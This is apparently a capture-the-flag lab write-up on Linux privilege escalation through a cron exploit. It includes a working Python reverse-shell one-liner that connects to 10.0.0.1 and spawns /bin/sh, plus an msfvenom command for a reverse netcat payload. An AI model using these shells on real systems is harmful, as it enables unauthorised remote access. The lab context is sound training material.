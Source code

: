 Let’s do it!

### Q1. First, let’s exit out of root from our previous task by typing `exit`. Then use `su` to swap to user4, with the password `password`.

#### Action

Switch to user4:

```bash
su - user4
```

**Sample Output:**

```
Welcome to Linux Lite 4.4 user4
Thursday 14 May 2020, 17:09:48
Memory Usage: 324/983MB (32.96%)
Disk Usage: 6/217GB (3%)
```

### Q2. Now, on our host machine, let’s create a payload for our cron exploit using `msfvenom`.

**Note:** Instead of using `msfvenom`, we’ll craft a Python reverse shell.

#### Action

Check if Python is installed on the target machine:

```bash
which python
```

**Sample Output:**

```
/usr/bin/python
```

Perfect! Now, let’s write a reverse Python shell:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Q3. What is the flag to specify a payload in `msfvenom`?

**Ans:** `-p`

**Explanation:**  
In `msfvenom`, the `-p` parameter is used to specify the payload.

### Q4. Create a payload using `msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`
